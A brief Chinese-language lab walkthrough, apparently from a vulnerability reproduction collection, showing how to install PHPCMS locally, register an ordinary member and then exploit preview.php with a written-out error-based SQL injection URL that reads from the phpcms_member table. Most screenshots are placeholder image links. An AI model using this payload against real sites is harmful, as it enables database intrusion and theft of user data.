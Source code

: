 # 实战
在浏览器输入
```
http://IP:PORT/install/
```
## 安装

![image]({path}/1.png)

![image]({path}/2.png)

![image]({path}/3.png)

![image]({path}/4.png)

![image]({path}/5.png)




## 攻击实战

首先要注册一个普通会员

![image]({path}/6.png)

![image]({path}/7.png)

![image]({path}/8.png)

在浏览器输入
```
http://192.168.1.170:7777/preview.php?info[catid]=15&content=a[page]b&info[contentid]=2' and (select 1 from(select count(*),concat((select (select (select concat(0x7e,0x27,md5(1),0x3a,md5(1),0x27,0x7e) from phpcms_member limit 0,1)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x limit 0,1)a)-- a
```
![image]({path}/10.png)
